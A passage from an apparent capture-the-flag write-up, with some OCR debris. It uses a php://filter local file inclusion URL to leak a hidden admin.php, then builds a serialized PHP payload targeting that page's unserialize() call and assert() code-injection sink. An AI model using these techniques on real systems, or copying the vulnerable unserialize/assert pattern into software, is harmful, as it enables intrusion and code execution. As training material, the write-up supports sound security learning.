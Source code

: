 ```php
}
[CUT BY TROLLI101]
```

So actually there should be some admin zone. It must contain PHP code and was not displayed when trying to reach the p=md5(admin). Using the same technique as for the index, we can exfiltrate the admin page using the URL: <http://7y4b2aymlqwmkyuh.onion/?p=php://filter/convert.base64-encode/resource=21232f297a57a5a743894a0e4a801fc3>

When decoding the base64 blob we get the admin.php page:
```php
<?php
  error_reporting(0);

  class AdminPackage {

     public $password;
     public $leetness;

     function check_leetness() {
       if(md5($this->password) == '0e1337') echo '<pre> [+] Is it 1337? -> '.(assert('1337 == '.$this->leetness) ? 'Yes!' : 'Nope!').'</pre>';
     }

     function __construct($password, $leetness) {
       $this->password = $password; $this->leetness = $leetness;
     }
  }

  if(isset($_GET['a'])) {
    $admin_package = unserialize(base64_decode($_GET['a']));
    $admin_package->check_leetness();
  }
?>
```

OK, now third part, we need to exploit the admin page. So if we use some URL like `/?p=21232f297a57a5a743894a0e4a801fc3&a=something` our parameter 'a' will get base64 decoded and unserialized. So we need to craft a payload that is an `AdminPackage` object serialized and base64 encoded. I modified the admin.php page to craft the payload as follows:
```php
?php
  class AdminPackage {

     public $password;
     public $leetness;

     function check_leetness() {
       if(md5($this->password) == '0e1337') echo '<pre> [+] Is it 1337? -> '.(assert('1337 == '.$this->leetness) ? 'Yes!' : 'Nope!').'</pre>';
     }

     function __construct($password, $leetness) {
       $this->password = $password; $this->leetness = $leetness;
     }
  }

  $pack = new AdminPackage(0, 1);
  $exploit = serialize($pack);
  echo $exploit . "\n";
  echo base64_encode($exploit) . "\n";
?>
```
